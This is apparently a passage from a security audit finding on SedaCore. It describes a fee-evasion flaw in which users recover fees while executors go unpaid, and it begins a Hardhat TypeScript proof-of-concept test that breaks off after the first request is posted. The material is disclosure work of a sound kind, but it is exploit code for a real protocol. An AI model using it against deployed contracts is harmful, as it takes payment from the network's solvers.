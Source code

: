 ### Impact

The solvers/executors suffer economic losses as they provide computational resources and valid results without receiving the promised compensation. The protocol incentive model is broken since users can potentially avoid paying fees while still receiving their requested data. This could lead to widespread abuse and eventually cause solvers to leave the network, damaging the protocol's utility and sustainability.

### PoC

Create new file: `test/FeeEvasion.test.ts`

```typescript
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers';
import { expect } from 'chai';
import { ethers } from 'hardhat';
import { time } from "@nomicfoundation/hardhat-toolbox/network-helpers";
import { deployWithSize } from './helpers/fixtures';
import { deriveRequestId } from './utils/crypto';

describe("SedaCore Fee Evasion Exploit", function () {
  async function deployFeeEvasionFixture() {
    // Deploy contracts using the existing fixture helper
    const { core: sedaCore, data } = await deployWithSize({ requests: 1 });
    
    // Get signers for different roles
    const [deployer, user, executor] = await ethers.getSigners();
    
    // Fund the user account for request fees
    const requestFee = ethers.parseEther("1.0");
    const resultFee = ethers.parseEther("0.5"); 
    const batchFee = ethers.parseEther("0.1");
    const totalFee = requestFee + resultFee + batchFee;
    
    return { sedaCore, user, executor, data, requestFee, resultFee, batchFee, totalFee };
  }

  it("Should allow result to be posted after request timeout and withdrawal", async function () {
    console.log("Starting test...");
    
    // Deploy all contracts and get instances
    const { sedaCore, user, executor, data, requestFee, resultFee, batchFee, totalFee } = await loadFixture(deployFeeEvasionFixture);
    
    console.log("TEST SETUP: Contracts deployed and accounts configured");
    console.log(`TEST SETUP: Using total fee of ${ethers.formatEther(totalFee)} ETH`);
    
    // Record initial executor balance for later comparison
    const executorInitialBalance = await ethers.provider.getBalance(executor.address);
    console.log(`INITIAL STATE: Executor's initial balance: ${ethers.formatEther(executorInitialBalance)} ETH`);
    
    // Create request using sample data from the fixture
    const baseRequest = data.requests[0];
    console.log("Base request:", baseRequest);
    
    console.log("STEP 1: User posting a data request with fee");
    const postRequestTx = await sedaCore.connect(user).postRequest(
      baseRequest,
      requestFee,
      resultFee,
      batchFee,
      { value: totalFee }
    );
```